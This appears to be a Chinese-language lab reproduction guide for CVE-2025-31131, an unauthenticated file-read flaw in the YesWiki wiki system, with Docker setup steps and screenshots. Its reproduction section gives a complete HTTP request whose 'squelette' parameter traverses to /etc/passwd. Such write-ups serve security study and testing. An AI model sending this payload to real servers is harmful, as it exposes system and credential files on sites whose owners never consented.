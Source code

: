 # YesWiki squelette 文件读取漏洞（CVE-2025-31131）

YesWiki是一个用PHP编写的wiki系统。用于以协作方式创建和管理网站。CVE-2025-31131 中，攻击者可在无需登录的情况下构造恶意请求读取遍历文件，造成敏感信息泄漏。

项目开源地址：https://github.com/YesWiki/yeswiki/

参考链接：https://github.com/YesWiki/yeswiki/security/advisories/GHSA-w34w-fvp3-68xm

## 环境搭建

访问链接https://github.com/YesWiki/yeswiki/releases，下载[v4.5.1](https://github.com/YesWiki/yeswiki/releases/tag/v4.5.1)版本

进入docker目录执行如下命令启动YesWiki v4.5.1 环境：

```
docker-compose up
```

镜像拉取并构建好后，浏览器打开http://{{yourip}}:8085/ 进入安装向导页面

![1](./1.png)

继续，这里有可能会出现失败的形况请给YesWiki根目录赋予足够的权限，或者考虑手动将wakka.config.php写到YesWiki根目录下（失败的情况会有提示复制文件内容即可）。

![image-20250502122114017](./2.png)



## 漏洞复现

```
GET /?UrkCEO/edit&theme=margot&squelette=..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&style=margot.css HTTP/1.1
Host: 192.168.76.129:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![3](./3.png)